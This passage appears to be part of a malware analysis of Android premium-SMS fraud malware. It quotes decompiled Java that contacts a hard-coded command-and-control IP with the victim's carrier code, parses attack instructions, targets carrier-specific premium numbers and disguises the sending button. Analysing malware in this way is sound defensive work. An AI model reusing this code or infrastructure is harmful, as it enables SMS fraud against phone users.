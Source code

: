 ```java
String spec = "http://139.59.107.168:8088/appsharejson?code=" + code;
```

- Contacts the same C&C server as `BootService`
- Sends victim's mobile operator code (`getSimOperator()`) to get targeted attack instructions
- Receives JSON payload with premium numbers and SMS content to send

##### 2. Attack Configuration

The malware receives a JSON response containing:

```java
this.content = object.getString("content");  // SMS text to send
this.rule = object.getString("rule");        // Display rules/instructions  
this.service = object.getString("service");  // Premium number to target
this.status = object.getString("code");      // Status code
this.button = object.getString("button");    // Button text (deception)
this.IMEIS = object.getString("imei");       // IMEI targeting rules
this.imeicontent = object.getString("imeicontent"); // IMEI-specific content
```

##### 3. **Carrier-Specific Targeting**

```java
if (operator != null && this.imeicontent != null) {
    String[] imeicontents = this.imeicontent.split(",");
    // Parse format: "operator:premium_number:sms_content"
    if (operator.equals(imei[0])) {
        this.shareSend = 1;
        this.service = imei[1];  // Premium number
        this.content = imei[2];  // SMS content
    }
}
```

The malware:

- Identifies victim's mobile carrier
- Receives carrier-specific premium numbers and content
- Maximizes profit by targeting each carrier's premium services

##### 4. Deceptive User Interface

```java
if (this.rule != null) {
    this.ms_show.setText(this.rule);  // Shows fake instructions
}
if (this.button != null) {
    this.button_sensms.setText(this.button);  // Disguises malicious button
}
```

The malware disguises the SMS sending button with innocent-looking text received from the C&C server.

##### 5. Premium SMS Execution
